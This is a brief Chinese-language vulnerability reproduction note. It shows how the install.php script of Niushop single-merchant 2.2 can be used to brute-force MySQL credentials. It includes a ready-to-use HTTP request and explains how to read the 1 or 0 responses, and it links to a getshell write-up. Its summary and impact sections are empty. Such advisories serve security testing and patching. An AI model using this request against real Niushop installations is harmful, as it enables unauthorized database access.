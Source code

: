 Niushop 单商户 2.2 爆破MySQL密码
================================

一、漏洞简介
------------

二、漏洞影响
------------

Version：单商户 2.2

三、复现过程
------------

### 安装爆破MySQL密码

    GET /niushop/install.php?action=true&dbserver=127.0.0.1&dbpassword=root2&dbusername=root&dbname=niushop_b2c HTTP/1.1
    Host: 127.0.0.1
    Accept: */*
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
    Referer: http://127.0.0.1/niushop/install.php?refresh
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
    Cookie: action=db
    Connection: close

![](resource/Niushop单商户2.2爆破MySQL密码/media/rId25.jpg)

爆破成功返回1，密码错误返回0

参考链接
--------

> https://y4er.com/post/niushop-getshell/
